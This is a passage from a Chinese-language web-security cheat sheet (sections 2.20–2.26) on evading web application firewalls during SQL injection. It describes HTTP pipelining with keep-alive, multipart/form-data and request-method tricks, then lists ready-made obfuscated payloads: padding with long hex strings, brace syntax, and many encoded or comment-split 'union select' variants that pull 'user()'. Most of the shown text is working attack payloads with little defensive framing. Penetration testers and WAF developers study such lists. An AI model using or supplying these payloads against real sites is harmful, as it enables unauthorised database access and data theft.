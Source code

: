 ### 2.20 pipline绕过

​	http协议是由tcp协议封装而来，当浏览器发起一个http请求时，浏览器先和服务器建立起连接tcp连接，然后发送http数据包（即我们用burpsuite截获的数据），其中包含了一个Connection字段，一般值为close，Apache等容器根据这个字段决定是保持该tcp连接或是断开。当发送的内容太大，超过一个http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的http 请求所建立的tcp连接不断开，直到所发送内容结束 Connection 为 close 为止。

​	用burpsuite抓包提交，复制整个包信息放在第一个包最后，把第一个包close改成keep-alive把brupsuite自动更新Content-Length勾去掉，有些WAF不会对第一个包的参数进行检测。



### 2.21 利用multipart/form-data绕过

​	multipart/form-data 表示该数据被编码为一条消息，页上的每个控件对应消息中的一个部分。所以，当 waf 没有规则匹配该协议传输的数据时可被绕过。



### 2.22 order by 绕过

```sql
select * from users where id=1 into @a,@b,@c,@d; # 替代order by猜解字段数
```



### 2.23 修改请求方式绕过

```php
<?php
echo $_REQUEST['id'];
?>
```

可以更改请求方式尝试绕过。



### 2.24 大量字符绕过

```sql
id=1 and (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()
```



### 2.25 花括号绕过

```sql
select 1,2 union select{x 1},user(); # 花括号左边是注释的内容
```



### 2.26 union select绕过

```sql
sel<>ect # 程序过滤<>为空 脚本处理
sele/**/ct # 程序过滤/**/为空
/*!%53eLEct*/ # url 编码与内联注释
se%0blect # 使用空格绕过
sele%ct # 使用百分号绕过
%53eLEct # 编码绕过
uNIoN sELecT 1,2
union all select 1,2
union DISTINCT select 1,2
null+UNION+SELECT+1,2
/*!union*//*!select*/1,2
union/**/select/**/1,2
and(select 1)=(Select 0xA*1000)/*!uNIOn*//*!SeLECt*/ 1,user()
/*!50000union*//*!50000select*/1,2
/*!40000union*//*!40000select*/1,2
%0aunion%0aselect 1,2
```
